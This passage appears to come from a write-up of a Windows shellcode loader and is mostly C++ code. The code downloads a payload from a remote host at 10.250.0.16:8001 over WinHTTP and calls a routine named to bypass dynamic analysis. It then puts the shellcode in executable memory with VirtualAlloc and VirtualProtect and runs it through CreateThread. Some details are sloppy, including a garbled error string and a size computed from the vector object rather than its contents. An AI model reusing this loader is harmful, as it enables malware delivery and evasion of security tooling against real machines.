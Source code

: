 ```
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}
```

* We then continue by calling the previously declared `Download` function to download our desired shellcode.

```
int main(int argc, char* argv[])
{
    BypassDynamicAnalysis();
    std::vector<BYTE> recvbuf;
    //  EDIT:                <ip>               <port>      <shellcodefile>
    recvbuf = Download(L"10.250.0.16\0", std::stoi("8001"), L"/test.bin\0");
```

* Then, with the help of multiple Windows API's such as `VirtualAlloc`, `VirtualProtect` and `CreateThread`; we inject the downloaded shellcode into the loader's process itself.

```
LPVOID alloc_mem = VirtualAlloc(NULL, recvbuf.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        if (!alloc_mem) {
                printf("Well... it failed! (%u)\n", GetLastError());
                return -1;
        }

        CopyMemory(alloc_mem, recvbuf.data(), recvbuf.size());

        DWORD oldProtect;
        if (!VirtualProtect(alloc_mem, sizeof(recvbuf), PAGE_EXECUTE_READ, &oldProtect)) {
                printf("Failed sd asd asd asdto change memory protection (%u)\n", GetLastError());
                return -2;
        }

        HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
        if (!tHandle) {
                printf("Failed thread (%u)\n", GetLastError());
                return -3;
        }
        printf("\n\nalloc_mem address : %p\n", alloc_mem);
        WaitForSingleObject(tHandle, INFINITE);
        ((void(*)())alloc_mem)();

        return 0;

}
```
